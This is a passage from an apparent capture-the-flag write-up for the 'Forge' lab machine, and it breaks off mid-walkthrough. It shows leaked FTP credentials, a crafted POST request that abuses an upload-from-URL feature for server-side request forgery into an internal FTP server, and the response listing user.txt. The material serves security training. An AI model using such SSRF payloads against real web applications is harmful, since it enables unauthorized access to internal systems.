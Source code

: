 ```{.html caption="credentials in announcments" style=mystyle}
<li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
<li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
<li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
```

Credentials are: _user:heightofsecurity123!_

# Foothold

## user.txt
If you misuse the upload url function of _forge.htb_ like this:

```{.bash caption="POST request" style=mystyle}
POST /upload HTTP/1.1
Host: forge.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
Origin: http://forge.htb
Connection: close
Referer: http://forge.htb/upload
Upgrade-Insecure-Requests: 1

url=http%3A%2F%2FAdmin.Forge.htb%2Fupload%3fu%3dftp%3a%2F%2Fuser:heightofsecurity123!%40Admin.Forge.htb&remote=1
```

_http://Admin.Forge.htb/upload?u=ftp://user:heightofsecurity123!@Admin.Forge.htb_

You can see the content of the internal bound ftp server:

```{.bash caption="server response" style=mystyle}
HTTP/1.1 200 OK
Date: Wed, 22 Sep 2021 10:17:13 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Disposition: inline; filename=22Yb2ccss7ZHqWsL5mT7
Content-Length: 126
Last-Modified: Wed, 22 Sep 2021 10:17:03 GMT
Cache-Control: no-cache
Connection: close
Content-Type: image/jpg

drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Sep 21 10:27 user.txt
```

Now one could send this:
